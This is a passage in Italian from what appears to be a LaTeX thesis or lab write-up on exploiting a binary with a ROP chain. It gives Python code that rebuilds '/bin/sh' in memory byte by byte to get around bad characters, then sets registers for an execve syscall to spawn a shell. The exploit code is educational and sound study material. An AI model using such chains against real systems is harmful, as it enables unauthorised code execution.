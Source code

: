 Inserita in memoria ed ottenuto quindi un puntatore ad essa, fu necessario ritrasformarla utilizzando alcuni dei \textbf{gadgets} recuperati in precedenza. Venne allora creata una seconda funzione che trasformasse ogni singolo carattere di essa direttamente in memoria, mediante l'inserimento in sequenza 
di vari \textbf{gadgets} all'interno della chain, fino all'ottenimento di quella originaria, nel caso ``\textbf{/bin/sh\textbackslash00}'':
\begin{lstlisting}[language=Python, label=badcahrs, caption={Funzione che aggiunge la parte di \textbf{ROP chain} per ritrasformare la stringa memorizzata in ``\textbf{/bin/sh\textbackslash00}''.}, style =Python]
def transform_badchars(rop, good_str, bad_str) :    # trasforma stringa in .data
      
      for n in range(len(good_str)) :
          c = good_str[n]
          rop.raw(pop_r15)                          # pop r15; ret;
          rop.raw(where_to_write + n)               # r15 = .data idx + 1
          while c != bad_str[n] :
              rop.raw(add_mbr15_r14b)               # add byte ptr[r15], r14b;
              c = chr(ord(c) + 1)                   # c diviene carattere successivo  
      
transform_badchars(rop, good_str, "/bin/sh\x00")    # chiamata alla funzione
\end{lstlisting}
Tale funzione, sfrutta il concetto spiegato nella precedente sezione \ref{subsec:Badchars}, ossia inserisce nella chain diverse istruzioni \textbf{ADD} per incrementare il valore esadecimale dei singoli caratteri, fino ad ottenere quelli della stringa attesa.
\\Gli ultimi passi per portare a termine l'attacco furono il completamento della \textbf{ROP chain}, con l'inserimento dei corretti valori all'interno dei registri per eseguire la shell e l'invio di essa come input all'applicazione:
\begin{lstlisting}[language=Python, label=ROP-syscall, caption={Parte finale della \textbf{ROP chain} per effettuare correttamente la chiamata a sistema ed eseguire la \textit{shell}.}, style =Python]
rop.raw(pop_r13)                                # pop r13; pop r14; pop r15; ret;
rop.raw(p64(0x3b))                              # r13 = 0x3b
rop.raw(p64(0x00))                              # r14 = 0x00
rop.raw(p64(0x00))                              # r15 = 0x00
rop.raw(mov_rax_r13)                            # mov rax, r13;
rop.raw(pop_rdi)                                # pop rdi; ret;
rop.raw(where_to_write)                         # rdi = .data idx -> "/bin/sh\x00"
rop.raw(pop_rsi)                                # pop rsi; pop r15; ret;
rop.raw(p64(0x00))                              # rsi = 0x00
rop.raw(p64(0x00))                              # r15 = 0x00
rop.raw(xor_rdx)                                # rdx = 0x00
rop.raw(syscall)                                # syscall
\end{lstlisting}
